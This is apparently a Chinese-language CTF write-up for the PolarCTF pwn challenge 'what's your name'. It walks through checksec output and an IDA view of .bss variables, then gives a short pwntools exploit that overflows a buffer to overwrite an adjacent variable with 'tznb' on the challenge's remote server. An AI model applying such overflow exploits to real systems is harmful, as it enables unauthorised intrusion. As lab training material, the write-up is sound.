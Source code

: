 ```yaml
---
title: what's your name
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

> 题目来源: PolarCTF pwn what's your name


## 基础分析
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file pwn2
pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e5cf511e469da7eeb8c868af7cbc9bfa3a550b2d, not stripped

┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=pwn2
[*] '/home/kali/win/Downloads/pwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida
![alt title](/images/image-24.png)

```asm
.bss:0804A06C b               db    ? ;               ; DATA XREF: main+62↑o
.bss:0804A06D                 db    ? ;
.bss:0804A06E                 db    ? ;
.bss:0804A06F                 db    ? ;
.bss:0804A070                 public c
.bss:0804A070 ; char c[8]
.bss:0804A070 c               db 8 dup(?)             ; DATA XREF: main+74↑o
```

b 的位置 0x0804A06C

c 的位置 0x0804A070

思路很明确了
read存在栈溢出，覆盖c 为 tznb


## exp
```py
from pwn import process, remote
from LibcSearcher3 import *  # noqa: F403

# io = process("./pwn2")
io = remote("120.46.59.242", 2070)

padding = 0x0804A070 - 0x0804A06C

payload = b"a" * 4 + b"tznb"

io.recvuntil("this?!\n")
io.send(payload)
print(io.recvline())
print(io.recvline())
```

没事别用 sendline 那个会多换行符